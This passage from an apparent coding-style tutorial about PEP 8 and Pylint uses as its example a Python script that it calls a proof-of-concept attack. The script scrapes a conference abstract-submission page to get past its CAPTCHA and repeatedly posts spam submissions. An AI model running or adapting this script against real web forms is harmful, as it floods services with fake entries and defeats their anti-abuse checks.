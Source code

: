 ```
        abstract_title = dictionary.readline().strip()
        abstract = first_name + ' ' + last_name + ' ' + email + \
            ' ' + degree_level + ' ' + department + ' ' + \
            faculty_advisor + ' ' + abstract_title
        abstract += ' '+abstract
        data = {'first_name': first_name,
                'last_name': last_name,
                'email': email,
                'degree_level': degree_level,
                'department': department,
                'faculty_advisor': faculty_advisor,
                'abstract_title': abstract_title,
                'abstract': abstract,
                'num': word_key,
                'key': word_value,
                'submit': 'Submit'
                }
        requests.post(target, data=data)
    print 'Finished spamming the submission system'

```

This code now conforms to the majority of the PEP 8 standard. However Pylint helps fix the rest of it. Instead of walking you through the process of fixing those errors I will let you do so on your own. `pylint` is run on your source file from the command line and it gives your code a rating. Even after fixing the prior violations via `pep8` this code is still only a 5.96 our of 10. To make running `pylint` on my code easier I use the `Syntastic` plugin for Vim. I never have to leave Vim and all the syntax imperfections are pointed out to me when I save my file. The perfected code is shown below. It is actually a 9.8/10 because the `main()` method has too many local variables. However with this script that is hard to avoid. 

```
'''
This script is a proof-of-concept attack against the abstract submission
system for the _______ conference.
'''
import re
from random import randrange

from bs4 import BeautifulSoup
import requests


def get_the_secret(text):
    '''
    Returns the secret page word

    text - the HTML containing the secret word

    This function extracts the secret word from the page
    to get around the awful CAPTCHA functionality built
    into it. Returns the secret word
    '''
    matches = re.findall(r'\"(.+?)\"', text)
    return ''.join(matches)


def grab_the_page(url):
    '''
    Returns the content of the target page
    '''
    resp = requests.get(url)
    while resp.status_code != 200:
        resp = requests.get(url)
```